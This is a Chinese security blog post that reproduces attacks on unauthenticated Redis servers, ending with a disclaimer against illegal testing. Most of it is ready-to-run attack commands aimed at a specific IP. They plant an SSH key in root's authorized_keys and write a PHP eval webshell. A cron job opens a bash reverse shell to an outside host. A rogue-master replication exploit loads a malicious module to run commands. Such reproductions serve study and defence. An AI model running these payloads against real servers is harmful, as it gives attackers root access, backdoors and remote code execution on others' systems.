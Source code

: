 #  Redis未授权主从复制RCE复现   
原创 kiand  网安知识库   2024-11-25 02:00  
  
### 漏洞描述  
  
Redis（Remote Dictionary Server )，即远程字典服务，是一个开源的使用ANSI C语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API。  
  
Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。  
### 利用条件  
1. 没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网。  
  
1. 没有设置密码认证（一般为空），可以免密码远程登录redis服务。  
  
### 漏洞复现  
#### 写入文件  
  
原理就是在数据库中插入一条数据，将本机的公钥作为value,key值随意，然后通过修改数据库的默认路径为/root/.ssh和默认的缓冲文件authorized.keys,把缓冲的数据保存在文件里，这样就可以在服务器端的/root/.ssh下生一个授权的key。  
  
写webshell也是同理，将一句话木马写入redis，再将缓冲数据文件保存到web目录下  
  
默认缓冲数据存放地址  
```
101.43.138.109:8080> config get dir
1) "dir"
2) "/data"
101.43.138.109:8080> config get dbfilename
1) "dbfilename"
2) "dump.rdb"

```  
  
准备好公钥文件![](https://mmbiz.qpic.cn/sz_mmbiz_png/q6x2tyau75N4icibPuiaW5Bqx6Dpg1OXV5PIC99OHF58GicNMS9ZQsb41J3ic8AMUOE6OxC1S12Nw980via1TV23vjKQ/640?wx_fmt=png&from=appmsg "")  
  
  
再把a.txt文件内容写入redis缓冲  
```
cat a.txt | redis-cli -h 101.43.138.109 -p 8080 -x set key
注：-x 代表从标准输入读取数据作为该命令的最后一个参数。

```  
  
更改rdb文件存储位置  
```
101.43.138.109:8080> config set dir /root/.ssh
OK
101.43.138.109:8080> config set dbfilename authorized.keys
OK
101.43.138.109:8080> save
OK

```  
  
查看authorized.keys文件，公钥已被写入。  
  
[![](https://mmbiz.qpic.cn/sz_mmbiz_png/q6x2tyau75N4icibPuiaW5Bqx6Dpg1OXV5PdTY4xrd4FbOmRDlRkVE386yAPQEbQvnEj9RJNHx5recPHumIjy20wQ/640?wx_fmt=png&from=appmsg "")  
写webshell  
```
set webshell "\n\n\n\<?php @eval($_POST['shell']);?>\n\n\n"
save

```  
  
[![](https://mmbiz.qpic.cn/sz_mmbiz_png/q6x2tyau75N4icibPuiaW5Bqx6Dpg1OXV5PicRcruSjOsd7Cv9fdwBia55bF63Oa7ic8AyGG2G5TpWnrF3xHjx7mESFw/640?wx_fmt=png&from=appmsg "")  
还可以写计划任务反弹shell  
```
set crontab "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/3.113.126.249/1234 0>&1\n\n"
config set dir /var/spool/cron
config set dbfilename root
save

```  
>   
> redis 可以创建文件但无法创建目录，所以， redis 待写入文件所在的目录必须事先存在。  
  
  
这种利用方式需要redis有写文件的权限，遇到下面这种情况就无法利用了。  
  
[![](https://mmbiz.qpic.cn/sz_mmbiz_png/q6x2tyau75N4icibPuiaW5Bqx6Dpg1OXV5P8Z6Mia8JAZn11dibseblMGQh9N1GTl9DrgVoRBE0tzJK8PJWyMngrWVA/640?wx_fmt=png&from=appmsg "")  
  
#### 主从复制RCE  
  
主从复制，是指将一台Redis服务器的数据，复制到其他的Redis服务器。前者称为主节点(master)，后者称为从节点(slave),数据的复制是单向的，只能由主节点到从节点。通过数据复制，Redis 的一个 master 可以挂载多个 slave，而 slave 下还可以挂载多个 slave，形成多层嵌套结构。所有写操作都在 master 实例中进行，master 执行完毕后，将写指令分发给挂在自己下面的 slave 节点。slave 节点下如果有嵌套的 slave，会将收到的写指令进一步分发给挂在自己下面的 slave  
  
[![](https://mmbiz.qpic.cn/sz_mmbiz_png/q6x2tyau75N4icibPuiaW5Bqx6Dpg1OXV5PsvqdqkOrTEy08mU444BZOBOH1yqQMvunQLQsmDCaSF71HibBZD0BsWQ/640?wx_fmt=png&from=appmsg "")  
  
  
开启主从复制的方式  
```
配置文件：在从服务器的配置文件中加入：slaveof <masterip> <masterport>
启动命令：redis-server启动命令后加入 --slaveof <masterip> <masterport>
客户端命令：Redis服务器启动后，直接通过客户端执行命令：slaveof <masterip> <masterport>，则该Redis实例成为从节点。

```  
  
Redis提供**主从模式：**使用一个redis实例作为主机，其他实例都作为备份机，其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式。  
  
在Reids 4.x之后，Redis新增了**模块功能**，通过外部拓展，可以实现在redis中实现一个新的Redis命令，通过写c语言并编译出.so文件。  
>   
> 很像mysql的UDF提权  
  
  
在两个Redis实例设置主从模式的时候，Redis的主机实例可以通过**FULLRESYNC**同步文件到从机上。然后在从机上加载so文件，我们就可以执行拓展的新命令了。  
  
从原理上来看，主从复制需要两台redis，攻击者控制master，靶机设置为slaveof master。实际利用中可以用python脚本模拟redis服务。  
  
exp地址 https://github.com/vulhub/redis-rogue-getshell  
```
python3 redis-master.py -r 101.43.138.109 -p 8080 -L 101.43.138.109 -P 2333 -f RedisModulesSDK/exp/exp.so -c "whoami"

```  
  
[![](https://mmbiz.qpic.cn/sz_mmbiz_png/q6x2tyau75N4icibPuiaW5Bqx6Dpg1OXV5PuHbic0Rp9RA1zKFsMTnvY3a166Da6f0KhGyLV3GRb28D2W3iciboZsgGw/640?wx_fmt=png&from=appmsg "")  
使用system.exec执行了命令  
  
可以看到so文件被同步到了靶机  
  
[![](https://mmbiz.qpic.cn/sz_mmbiz_png/q6x2tyau75N4icibPuiaW5Bqx6Dpg1OXV5PtrYtPrHiawJib1gso0ibNg19qE0zOic36iaBwzbP3kbE0kB2piafnhQSIibEQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与本公众号无关。  
  
